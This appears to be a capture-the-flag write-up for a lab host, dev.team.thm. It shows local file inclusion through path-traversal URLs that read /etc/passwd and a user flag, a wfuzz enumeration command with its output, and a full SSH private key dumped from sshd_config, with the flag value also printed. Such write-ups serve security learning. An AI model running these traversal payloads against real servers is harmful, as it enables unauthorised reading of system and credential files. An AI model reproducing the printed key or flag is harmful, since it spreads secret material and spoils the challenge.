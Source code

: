 On the page I clicked the hyperlink and was taken to `http://dev.team.thm/script.php?page=teamshare.php`
I messed around with command injection and couldn't find anything. I switched gears and tried navigating the file system.
I tried `http://dev.team.thm/script.php?page=../../../etc/passwd` and was successfulyl able to dump the contents of /etc/passwd.
I then tried to get user.txt from dale and got it pretty quickly. `http://dev.team.thm/script.php?page=../../../home/dale/user.txt`

```
dale@TEAM:~$ cat user.txt
THM{6Y0TXHz7c2d}
```


Now I know that I a good place to start my LFI enumeration is at `../../../`
I decided to use wfuzz to see if I could find interesting files to dump.
```
└─$ wfuzz -w LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php?page=../../../FUZZ >> ~/team.thm/wfuzz_lfi.txt
```
The problem with this search is that every response was a `200 OK`, so that's not super useful to seach the results in that way.
I can see the size of the response returned and can figure that if I get 200 OK result that's of a decent size then the file exists and I can dump its contents. I also know that I'm looking for a config/conf file so I grepped the results to see what I could find.
```
000000005:   200        230 L    1119 W     7313 Ch     "/etc/apache2/apache2.conf"  
000000080:   200        19 L     113 W      736 Ch      "/etc/resolv.conf" 
000000083:   200        52 L     218 W      1581 Ch     "/etc/ssh/ssh_config"                                                                        
000000084:   200        169 L    447 W      5990 Ch     "/etc/ssh/sshd_config" 
000000094:   200        160 L    955 W      5937 Ch     "/etc/vsftpd.conf"  
```

I began looking at each result and `/etc/ssh/sshd_config` gave me what I needed
```
dale id_rsa
#-----BEGIN OPENSSH PRIVATE KEY----- #b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn #NhAAAAAwEAAQAAAYEAng6KMTH3zm+6rqeQzn5HLBjgruB9k2rX/XdzCr6jvdFLJ+uH4ZVE #NUkbi5WUOdR4ock4dFjk03X1bDshaisAFRJJkgUq1+zNJ+p96ZIEKtm93aYy3+YggliN/W #oG+RPqP8P6/uflU0ftxkHE54H1Ll03HbN+0H4JM/InXvuz4U9Df09m99JYi6DVw5XGsaWK #o9WqHhL5XS8lYu/fy5VAYOfJ0pyTh8IdhFUuAzfuC+fj0BcQ6ePFhxEF6WaNCSpK2v+qxP #zMUILQdztr8WhURTxuaOQOIxQ2xJ+zWDKMiynzJ/lzwmI4EiOKj1/nh/w7I8rk6jBjaqAu #k5xumOxPnyWAGiM0XOBSfgaU+eADcaGfwSF1a0gI8G/TtJfbcW33gnwZBVhc30uLG8JoKS #xtA1J4yRazjEqK8hU8FUvowsGGls+trkxBYgceWwJFUudYjBq2NbX2glKz52vqFZdbAa1S #0soiabHiuwd+3N/ygsSuDhOhKIg4MWH6VeJcSMIrAAAFkNt4pcTbeKXEAAAAB3NzaC1yc2 #EAAAGBAJ4OijEx985vuq6nkM5+RywY4K7gfZNq1/13cwq+o73RSyfrh+GVRDVJG4uVlDnU #eKHJOHRY5NN19Ww7IWorABUSSZIFKtfszSfqfemSBCrZvd2mMt/mIIJYjf1qBvkT6j/D+v #7n5VNH7cZBxOeB9S5dNx2zftB+CTPyJ177s+FPQ39PZvfSWIug1cOVxrGliqPVqh4S+V0v #JWLv38uVQGDnydKck4fCHYRVLgM37gvn49AXEOnjxYcRBelmjQkqStr/qsT8zFCC0Hc7a/ #FoVEU8bmjkDiMUNsSfs1gyjIsp8yf5c8JiOBIjio9f54f8OyPK5OowY2qgLpOcbpjsT58l #gBojNFzgUn4GlPngA3Ghn8EhdWtICPBv07SX23Ft94J8GQVYXN9LixvCaCksbQNSeMkWs4 #xKivIVPBVL6MLBhpbPra5MQWIHHlsCRVLnWIwatjW19oJSs+dr6hWXWwGtUtLKImmx4rsH #ftzf8oLErg4ToSiIODFh+lXiXEjCKwAAAAMBAAEAAAGAGQ9nG8u3ZbTTXZPV4tekwzoijb #esUW5UVqzUwbReU99WUjsG7V50VRqFUolh2hV1FvnHiLL7fQer5QAvGR0+QxkGLy/AjkHO #eXC1jA4JuR2S/Ay47kUXjHMr+C0Sc/WTY47YQghUlPLHoXKWHLq/PB2tenkWN0p0fRb85R #N1ftjJc+sMAWkJfwH+QqeBvHLp23YqJeCORxcNj3VG/4lnjrXRiyImRhUiBvRWek4o4Rxg #Q4MUvHDPxc2OKWaIIBbjTbErxACPU3fJSy4MfJ69dwpvePtieFsFQEoJopkEMn1Gkf1Hyi #U2lCuU7CZtIIjKLh90AT5eMVAntnGlK4H5UO1Vz9Z27ZsOy1Rt5svnhU6X6Pldn6iPgGBW #/vS5rOqadSFUnoBrE+Cnul2cyLWyKnV+FQHD6YnAU2SXa8dDDlp204qGAJZrOKukXGIdiz #82aDTaCV/RkdZ2YCb53IWyRw27EniWdO6NvMXG8pZQKwUI2B7wljdgm3ZB6fYNFUv5AAAA #wQC5Tzei2ZXPj5yN7EgrQk16vUivWP9p6S8KUxHVBvqdJDoQqr8IiPovs9EohFRA3M3h0q #z+zdN4wIKHMdAg0yaJUUj9WqSwj9ItqNtDxkXpXkfSSgXrfaLz3yXPZTTdvpah+WP5S8u6 #RuSnARrKjgkXT6bKyfGeIVnIpHjUf5/rrnb/QqHyE+AnWGDNQY9HH36gTyMEJZGV/zeBB7 #/ocepv6U5HWlqFB+SCcuhCfkegFif8M7O39K1UUkN6PWb4/IoAAADBAMuCxRbJE9A7sxzx #sQD/wqj5cQx+HJ82QXZBtwO9cTtxrL1g10DGDK01H+pmWDkuSTcKGOXeU8AzMoM9Jj0ODb #mPZgp7FnSJDPbeX6an/WzWWibc5DGCmM5VTIkrWdXuuyanEw8CMHUZCMYsltfbzeexKiur #4fu7GSqPx30NEVfArs2LEqW5Bs/bc/rbZ0UI7/ccfVvHV3qtuNv3ypX4BuQXCkMuDJoBfg #e9VbKXg7fLF28FxaYlXn25WmXpBHPPdwAAAMEAxtKShv88h0vmaeY0xpgqMN9rjPXvDs5S #2BRGRg22JACuTYdMFONgWo4on+ptEFPtLA3Ik0DnPqf9KGinc+j6jSYvBdHhvjZleOMMIH #8kUREDVyzgbpzIlJ5yyawaSjayM+BpYCAuIdI9FHyWAlersYc6ZofLGjbBc3Ay1IoPuOqX #b1wrZt/BTpIg+d+Fc5/W/k7/9abnt3OBQBf08EwDHcJhSo+4J4TFGIJdMFydxFFr7AyVY7 #CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH #-----END OPENSSH PRIVATE KEY-----
```
